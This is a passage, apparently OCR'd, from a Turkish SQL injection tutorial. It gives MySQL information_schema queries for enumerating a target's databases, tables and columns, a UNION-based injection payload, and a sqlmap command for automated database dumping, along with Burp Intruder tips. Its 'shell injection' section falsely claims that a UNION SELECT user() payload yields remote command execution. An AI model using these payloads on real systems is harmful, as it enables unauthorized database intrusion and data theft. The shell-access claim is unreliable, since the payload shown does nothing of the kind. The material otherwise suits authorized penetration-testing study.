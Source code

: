 Bu şekilde her sütun sayısını artan sırayla kontrol edebilirsin. Hangi sorgunun hata vereceği, sistemdeki toplam sütun sayısını belirtir. Sonrasında doğru sütunu tespit ederek veritabanı adını alabilirsin.

4️⃣ MySQL Metadata Enjeksiyonu (İçsel Veritabanı Bilgisi)
Eğer hedef veritabanı MySQL kullanıyorsa, daha fazla bilgi edinmek için veritabanı metadata'larını (şematik yapılar, tablolara dair bilgiler) sorgulayabilirsin.
Veritabanı Adını Öğrenmek için:
sql
```sql
SELECT schema_name FROM information_schema.schemata;
```
Veritabanındaki Tablo Adlarını Öğrenmek için:
sql
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = 'test_db';
```
Bu sorgu, 'test_db' veritabanındaki tüm tablo adlarını döndürecektir.
Veritabanındaki Tablolardaki Kolonları Öğrenmek için:
sql
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'users';
```

5️⃣ SQL Injection ile Sisteme Komut İstemcisi Ekleme (Shell Injection)
Birçok zaman, SQL injection ile elde edilen verilerle sadece veritabanı adı veya tablo yapısını almak değil, sistem komutlarına erişim sağlamak da mümkündür. Eğer hedef sistemde komut satırı erişimi varsa, SQLi ile shell komutları çalıştırılabilir.
Linux Komutları ile Erişim Sağlamak:
sql
```sql
' UNION SELECT 1,2,3,4, GROUP_CONCAT(user()) FROM information_schema.tables--
```
Bu şekilde komut satırına geçerek, uzaktaki sunucuya erişim sağlayabilir, komutlar çalıştırabilirsin.

6️⃣ Automatikleştirilmiş Yöntemler
Bu tür testleri manuel olarak gerçekleştirmek bazen çok zaman alıcı olabilir. Bu yüzden aşağıdaki araçları kullanmak faydalıdır:
SQLmap:
SQLmap, yukarıda bahsedilen tüm SQL enjeksiyon tekniklerini otomatikleştirir. Veritabanı adını öğrenmek için şunları kullanabilirsin:
bash
```bash
sqlmap -u "https://example.com/index.php?id=1" --dbs --technique=BEUST
```
-u: Hedef URL
```plaintext
--dbs: Tüm veritabanlarını listele
--technique: Kullanılacak enjeksiyon türünü belirtir (B = Blind, E = Error, U = Union, S = Stacked, T = Time-based)
```
Burp Suite Intruder:
Burp Suite, özellikle kör SQL enjeksiyon testleri için kullanışlıdır. Yanıt zamanlamaları veya sayfa içerikleri arasındaki farklar ile veritabanı adı gibi bilgileri sızdırmak mümkündür.
Burp Suite'de Intruder sekmesini kullanarak testleri otomatikleştirebilir, tokenlar ve payloadlar ile girişleri denemeler yapabilirsin.
